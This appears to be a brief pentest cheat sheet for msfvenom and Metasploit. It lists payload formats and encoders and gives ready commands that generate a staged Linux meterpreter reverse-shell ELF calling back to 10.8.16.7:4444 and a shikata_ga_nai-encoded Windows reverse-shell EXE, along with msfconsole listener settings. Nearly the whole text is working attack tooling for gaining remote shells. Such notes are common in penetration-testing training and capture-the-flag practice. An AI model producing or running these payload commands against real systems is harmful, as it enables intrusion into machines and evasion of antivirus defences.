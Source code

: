https://www.hackingarticles.in/msfvenom-cheatsheet-windows-exploitation/
##### Standard usage
`msfvenom -a ARCH -p PAYLOAD -e ENCODER -f FORMAT -o OUTPUT LHOST=IP LPORT=PORT`

##### Important formats
Windows: `dll, exe, exe-service, powershell, msi`
Linux: `elf, bash`
Misc: `python, ruby `

##### Useful encoders
Windows: `x86/shikata_ga_nai, x86/opt_sub`

###### Important payloads
Windows: ``
Linux: 

```
msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.8.16.7 LPORT=4444 // Generate a staged ELF meterpreter reverse shell
```
##### Windows
```
msfvenom -a ARCH -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -f EXE -o winshell.exe LHOST=IP LPORT=PORT
```

##### Staged vs stageless
Staged payloads: Small bit of code that connects to the attacker, then downloads an actual payload to the RAM.
Example: `windows/shell/reverse_tcp`

Stageless payloads: Full payload, connects to listener when executed.
Example: `windows/shell_reverse_tcp

##### MSFConsole:
```
set payload METERPRETER_PAYLOAD  // meterpreter/ payloads
set LHOST 0.0.0.0
set LPORT 4444
run -j  // Run in background
```